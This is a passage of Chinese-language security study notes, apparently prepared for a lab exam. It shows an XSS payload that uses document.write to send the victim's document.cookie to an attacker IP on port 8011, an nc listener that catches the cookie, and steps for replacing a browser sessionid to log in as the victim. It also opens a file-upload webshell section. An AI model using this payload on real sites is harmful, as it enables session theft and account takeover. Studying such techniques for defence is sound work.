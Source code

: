 ![image-20230612092232975](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230612092232975.png)

`<script>
	document.write(	
		'<img src="http://11.1.12.101:8011/?'+
		 document.cookie+
		'"/>'	
	//利用img标签特性，生成src的GET请求并获取请求页面cookie，然后作为图片去展示；	
	);
//通过document.write写到网页中来-执行img标签-去触发指令-生成一个含cookie的GET请求
</script>`





原理：构造一个访问请求来盗取浏览器页面的cookie

第三步：**接收cookie**

攻击机：接收

shift+右键“在此处打开命令行窗口”，进行端口监听

```
nc  -lp  8011
```

注：**端口号须一致**

​        **监听成功的数据包useagent有“PhantomJS”浏览器指纹（仅限于考试环境）**

#### 2.替换cookie实现登录

- 复制nc监听到的GET数据包cookie，替换到要绕过的登录页面

  chrom：右键检查——Application——修改sessionid

  firefox：小画板search——修改sessionid

- 然后地址栏访问主页面（不是刷新登录页面），eg: 127.0.0.1:8082

#### 3.实施过程

[XSS cookie伪造攻击 - Dawns_- - 博客园 (cnblogs.com)](https://www.cnblogs.com/Seadawns/p/17477437.html)

# 文件上传

## 原理

通常是由于对上传文件的类型、内容没有进行严格的过滤、检查或者过滤被成功绕过，使得攻击者可以通过上传木马获取服务器的webshell权限。

## 绕过方式

### 基于前端校验的上传
